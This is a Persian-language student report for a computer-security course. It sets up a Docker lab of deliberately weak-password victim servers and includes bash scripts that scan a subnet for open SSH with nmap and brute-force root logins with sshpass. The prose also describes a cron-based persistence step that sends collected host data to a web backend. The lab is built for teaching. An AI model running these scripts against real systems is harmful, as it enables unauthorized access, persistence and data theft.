\documentclass{article}
\usepackage{amsmath,enumitem,fullpage,graphicx,listings,float,sidecap,setspace,xcolor,wrapfig,booktabs,multirow,subcaption,array,xepersian,bidi}

\newcolumntype{C}[1]{>{\centering\arraybackslash}m{#1}}
\definecolor{lg}{HTML}{F4F3F3}
\setlength{\fboxsep}{10pt}
\setlatintextfont{Vazirmatn}
\settextfont{Vazirmatn}
\begin{document}

\begin{titlepage}
  \centering
  
\includegraphics[width=0.5\textwidth]{iust.png}\par\vspace{1cm}
  {\scshape\LARGE دانشکده مهندسی کامپیوتر \par}
  \vspace{1cm}
  {\huge\bfseries پروژه Iridium\par}
  \vspace{1cm}
  {\Large امنیت سیستم های کامپیوتری \par}
  \vspace{1cm}
  {\large وحید محمدی \par}
  {\large علی اخباری \par}
  \vspace{5cm}
  {\large نیم سال اول \par}
  {\large سال تحصیلی ۱۴۰۲-۱۴۰۳ \par}
\end{titlepage}
\newpage
\doublespacing
در اولین قدم یک dockerfile برای ساخت سرور نوشته ام که از لینوکس alpine استفاده میکند که خیلی سبک است و در ادامه ابزار های مورد نیاز مانند cron و  curl نصب میکنیم تا در ادامه از آن ها استفاده کنیم.
\begin{latin}
  \begin{lstlisting}
# Base image
FROM alpine:latest

# Update packages and install SSH, curl, ping, and sshpass
RUN apk update && apk upgrade && 
apk add --no-cache openssh curl iputils sshpass

# Install additional tools for hardware information and date/time logging
RUN apk add --no-cache lshw util-linux coreutils nmap nano bash

# Install cron
RUN apk add --no-cache dcron

# Generate SSH host keys
RUN ssh-keygen -A

# Set the root password (change it to your desired password)
ARG ROOT_PASSWORD
RUN echo "root:${ROOT_PASSWORD}" | chpasswd

# Enable SSH
RUN sed -i 's/#PermitRootLogin prohibit-password/PermitRootLogin 
yes/' /etc/ssh/sshd_config
RUN sed -i 's/#PasswordAuthentication 
yes/PasswordAuthentication yes/' /etc/ssh/sshd_config

# Add cron job
RUN echo "*/5 * * * * echo 'Job executed at $(date)' >> /var/log/job.log" >
 /etc/crontabs/root

# Expose SSH port
EXPOSE 22

# Create a startup script
RUN echo "#!/bin/sh" > /start.sh
RUN echo "/usr/sbin/sshd" >> /start.sh  
# Add this line to start the SSH service
RUN echo "lshw > /var/log/hardware_info.log" >> /start.sh
RUN echo "date >> /var/log/hardware_info.log" >> /start.sh
RUN echo "crond -f" >> /start.sh
RUN echo "exec /usr/sbin/sshd -D" >> /start.sh
RUN chmod +x /start.sh

# Start SSH service and cron
CMD ["/start.sh"]
  \end{lstlisting}
\end{latin}
در مرحله بعد هم با داکر کامپوز ۱۰ سرور قربانی و ۱ سرور حمله کننده میسازیم که رمز سرور ها در اینجا هارد کد شده است و همه این سرور ها وارد شبکه داکر با ماسک \lr{172.85.69.0/24} میشوند
\begin{latin}
  \begin{lstlisting}
version: '3'

services:
  victim-1:
    build:
      context: .
      args:
        - ROOT_PASSWORD=admin
    networks:
      - iridium
    container_name: victim-1
    environment:
      - CONTAINER_NAME=victim-1

  victim-2:
    build:
      context: .
      args:
        - ROOT_PASSWORD=T1#kL6@f9Qb3
    networks:
      - iridium
    container_name: victim-2
    environment:
      - CONTAINER_NAME=victim-2

  victim-3:
    build:
      context: .
      args:
        - ROOT_PASSWORD=U7%9kG2$bR4t
    networks:
      - iridium
    container_name: victim-3
    environment:
      - CONTAINER_NAME=victim-3

  victim-4:
    build:
      context: .
      args:
        - ROOT_PASSWORD=123456
    networks:
      - iridium
    container_name: victim-4
    environment:
      - CONTAINER_NAME=victim-4

  victim-5:
    build:
      context: .
      args:
        - ROOT_PASSWORD=qwerty
    networks:
      - iridium
    container_name: victim-5
    environment:
      - CONTAINER_NAME=victim-5

  victim-6:
    build:
      context: .
      args:
        - ROOT_PASSWORD=G5%7lA8@eH1i
    networks:
      - iridium
    container_name: victim-6
    environment:
      - CONTAINER_NAME=victim-6

  victim-7:
    build:
      context: .
      args:
        - ROOT_PASSWORD=123abc
    networks:
      - iridium
    container_name: victim-7
    environment:
      - CONTAINER_NAME=victim-7

  victim-8:
    build:
      context: .
      args:
        - ROOT_PASSWORD=1234567890
    networks:
      - iridium
    container_name: victim-8
    environment:
      - CONTAINER_NAME=victim-8

  victim-9:
    build:
      context: .
      args:
        - ROOT_PASSWORD=password
    networks:
      - iridium
    container_name: victim-9
    environment:
      - CONTAINER_NAME=victim-9

  victim-10:
    build:
      context: .
      args:
        - ROOT_PASSWORD=L6#8oB9$fJ2k
    networks:
      - iridium
    container_name: victim-10
    environment:
      - CONTAINER_NAME=victim-10

  attacker:
    build:
      context: .
      args:
        - ROOT_PASSWORD=attacker
    networks:
      - iridium
    container_name: attacker
    environment:
      - CONTAINER_NAME=attacker

networks:
  iridium:
    external: true
    name: iridium
  \end{lstlisting}
\end{latin}
در سرور attacker  با استفاده از فایل بش اسکریپت \lr{ip\_port.sh} با استفاده از nmap تمام پورت های ۲۲ باز را در شبکه پیدا میکنیم و همراه با ip در فایل \lr{open\_port.csv} دخیره میکنید
\begin{latin}
  \begin{lstlisting}[language=bash]
#!/bin/bash

# IP range
ip_range="172.85.69.0/24"

# Output file
output_file="open_ports.csv"

# Write the header to the CSV file
echo "IP,Server Name,Port 22 Status" > $output_file

# Scan the IP range
for ip in $(nmap -sn -PR -n $ip_range | grep report | awk '{print $5}'); do
    # Check if port 22 is open
    port_status=$(nmap -p 22 -n $ip | grep 22/tcp | awk '{print $2}')
    
    # Get the server name
    server_name=$(nslookup $ip | grep 'name = ' | 
    cut -d '=' -f2 | cut -d '.' -f1)
    
    # If server name is empty, use the IP address
    if [ -z "$server_name" ]; then
        server_name=$ip
    fi
    
    # Write the result to the CSV file
    echo "$ip,$server_name,$port_status" >> $output_file
done
  \end{lstlisting}
\end{latin}
و بعد از آن با استفاده از فایلی که رمز های ساده و دیفالت در آن قرار دارد در فایل \lr{ip\_password.sh} برای بروت فورس زدن روی سرور ها برای فهمیدن رمز ssh آن ها استفاده میکنیم و نتیجه آن که لیستی از ip و password را در فایل csv دخیره میکنیم
\begin{latin}
  \begin{lstlisting}[language=bash]
#!/bin/bash

# IP range
ip_range="172.85.69.0/24"

# Password file
password_file="password.txt"

# Output file
output_file="ip_passwords.csv"

# Write the header to the CSV file
echo "IP,Password" > $output_file

# Scan the IP range
for ip in $(nmap -sn -PR -n $ip_range | grep report | awk '{print $5}'); do
    # Check if port 22 is open
    port_status=$(nmap -p 22 -n $ip | grep 22/tcp | awk '{print $2}')
    
    # If port 22 is open, try each password
    if [ "$port_status" == "open" ]; then
        while read password; do
            # Try to connect via SSH
            sshpass -p $password ssh -o StrictHostKeyChecking=no -o 
            ConnectTimeout=5 root@$ip exit 2>/dev/null
            
            # If the connection was successful, write the IP 
            and password to the CSV file
            if [ $? -eq 0 ]; then
                echo "$ip,$password" >> $output_file
                break
            fi
        done < $password_file
    fi
done
  \end{lstlisting}
\end{latin}
و بعد از آن در آخر با استفاده از فایل \lr{attacker.sh} با استفاده از لیستی که در فایل قبل دخیره شده بود به تمام سرور ها ssh زده میشود و فایل \lr{info.sh} که اطلاعات سرور را در یک فایل json ذخیره میکند را در فایل /root سرور قربانی کپی میکند و بعد از آن یک روتین ایجاد میکند که در هر سه دقیقه آن فایل بش را اجرا کند و فایل json تولید شده را برای backend  وب سرور بفرستد که با express.js و mongodb زده شده است و فرانت آن نیز با react.js است.

تمام سه فایل bash هم با استفاده از فایل \lr{all.sh} به ترتیب اجرا میشوند.


\begin{figure}[H]
  \centering
  
\includegraphics[width=15cm]{pic/docker.png}
  \caption{اجرای حمله به سرور های قربانی}
  \label{fig:docker}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=15cm]{pic/front.png}
  \caption{نمایش اطلاعات بدست آمده از سرور های قربانی در web app}
  \label{fig:docker}
\end{figure}
\end{document}